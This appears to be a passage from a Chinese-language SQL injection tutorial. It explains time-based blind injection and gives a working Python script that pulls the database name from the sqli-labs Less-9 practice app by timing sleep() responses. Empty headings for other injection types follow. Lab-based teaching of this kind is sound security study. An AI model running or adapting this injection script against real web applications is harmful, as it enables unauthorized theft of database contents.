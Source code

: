 时间盲注常使用 `if(expr1, expr2, expr3)`, 其中 expr2 通常为 sleep 函数，当 expr1 为 true 时，返回 expr2, 否则返回 expr3。时间盲注常可以看作是布尔注入。

如 [sqli-labs-php7](https://github.com/skyblueee/sqli-labs-php7) 的 Less-9，利用时间盲注获取数据库名

```python
import requests

url = "http://192.168.154.135/sqli-labs-php7/Less-9/"
             

def get_dblen(url):
    para = "?id=1' and if(length(database())=%d, sleep(0.1), null)--+"
    url = url + para
    rsp = requests.get(url % (8,))
    for i in range(20):
        rsp = requests.get(url % (i,))
        if rsp.elapsed.total_seconds() >= 0.1:
            return i


def get_dbname(url):
    dblen = get_dblen(url)
    para = "?id=1' and if(ascii(substr(database(),  %d, 1))<%d, sleep(0.1), null)--+"
    url = url + para
    dbname = []
    for i in range(1, dblen + 1):
        left = 0
        right = 256
        while True:
            if left == right or left == (right - 1):
                dbname.append(chr(left))
                break
            rsp = requests.get(url % (i, (left + right) / 2))
            if rsp.elapsed.total_seconds() < 0.1:
                left = int((left + right) / 2)
            else:
                right = int((left + right) / 2)
    return "".join(dbname)


if __name__ == "__main__":
    print(get_dbname(url))


```

## 宽字节注入


## 报错注入
### floor报错注入
### updatexml报错注入
### extractvalue报错注入
## 堆叠注入


## 二次注入